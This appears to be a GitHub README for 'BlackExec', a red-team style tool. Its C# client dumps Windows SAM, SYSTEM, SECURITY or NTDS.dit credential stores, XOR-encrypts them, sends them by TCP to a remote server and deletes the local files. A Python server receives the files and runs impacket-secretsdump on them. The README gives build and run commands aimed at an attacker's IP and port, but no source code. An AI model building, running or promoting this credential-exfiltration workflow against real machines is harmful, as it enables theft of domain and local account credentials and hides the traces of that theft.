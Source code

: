 # Client side 

# **BlackExec**

BlackExec is a C# program that dumps the SYSTEM, SECURITY, SAM, or NTDS.dit files from the local Windows machine, encrypts them using XOR encryption and uploads the encrypted files to a remote server over TCP.

## **Features**

- Dumps SYSTEM, SECURITY, SAM, or NTDS.dit files
- Zips the dumped files
- Encrypts the zip file using XOR encryption with a specified key
- Uploads the encrypted file to a remote server via a TCP connection
- Deletes the original, zipped, and encrypted files from the local machine after uploading

## **Usage**

1. Ensure you have the .NET 6.0 SDK installed on your machine.
2. Compile the C# program using the following command in the terminal:

```
dotnet build
```

1. Run the compiled program with administrative privileges:

```
BlackExec.exe <Server_IP> <Port> sam

BlackExec.exe <Server_IP> <Port> ntds
```

**Note:** The program must be run with administrative privileges to access the SYSTEM, SAM, ntds.dit and SECURITY files.

## **Configuration**

You can change the XOR encryption key before running the program, update the following variables in the code:

- **`string key`**: Set this to the desired XOR encryption key (Default value is “RedKey”)

## **Dependencies**

This program uses the following built-in .NET libraries:

- System.Diagnostics
- System.IO.Compression
- System.Net.Sockets
- System.Security.Principal







# Server side

# **File Receiver with XOR and SecretsDump**

This Python script receives files from clients via a TCP connection, optionally decrypts them using an XOR cipher, and extracts the contents. If the **`--show`** argument is provided, it runs the **`impacket-secretsdump`** tool to display the contents of the extracted files.

## **Features**

- Receive files from clients via a TCP connection
- Optional XOR decryption of received files using a provided key
- Extraction of received zip files
- Optional execution of **`impacket-secretsdump`** on the extracted files
- Detection and handling of **`ntds.dit`** file presence in the extracted files
- Clean up and archive of extracted files

## **Dependencies**

- Python 3.9 or later
- **`impacket`** (for the **`impacket-secretsdump`** command)

You can install the **`impacket`** package using the following command:

```
pip install impacket

```

## **Usage**

To run the script, execute the following command:

```
python file_receiver.py --xor_key "RedKey" --show
```

Replace **`"RedKey"`** with the desired XOR key. If you don't provide the **`--xor_key`** argument, the script will run without decrypting the file.

### **Arguments**

- **`xor`** or **`-xor_key`**: Specifies the XOR key to be used for decrypting the received file. If not provided, no decryption will be performed.
- **`-show`**: Unzips the received file, decrypts it if an XOR key is provided, and runs the **`impacket-secretsdump`** command on the extracted files. If the **`ntds.dit`** file is present in the extracted files, the command will be adjusted accordingly.
